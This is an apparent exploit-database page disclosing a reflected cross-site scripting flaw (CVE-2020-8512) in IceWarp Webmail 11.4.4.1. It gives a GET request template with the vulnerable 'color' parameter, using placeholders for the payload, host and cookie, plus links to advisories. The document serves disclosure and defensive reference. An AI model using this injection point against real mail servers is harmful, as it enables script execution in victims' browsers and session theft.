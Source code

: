 ```yaml
---
title: "IceWarp 11.4.4.1 Cross-Site Scripting - CVE-2020-8512"
collection: exploits
excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2020  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ <br>
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**GET REQUEST :**

GET /webmail/?color=**XSS PAYLOAD** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable Page :**
/webmail/<br> 
**Vulnerable Parameter :**
color


Exploit DB : <a href="https://www.exploit-db.com/exploits/47988">47988</a>
National Vulnerability Database: <a href="https://nvd.nist.gov/vuln/detail/CVE-2020-8512">https://nvd.nist.gov/vuln/detail/CVE-2020-8512</a>
CVE-2020-8512 IceWarp WebMail XSS Exploitation: <a href="https://www.youtube.com/watch?v=WJo3-dn3wy4">https://www.youtube.com/watch?v=WJo3-dn3wy4</a>
0day.today Record: <a href="https://0day.today/exploit/description/33886">https://0day.today/exploit/description/33886</a>
Online Scanner for CVE-2020-8512: <a href="https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512">https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512</a>

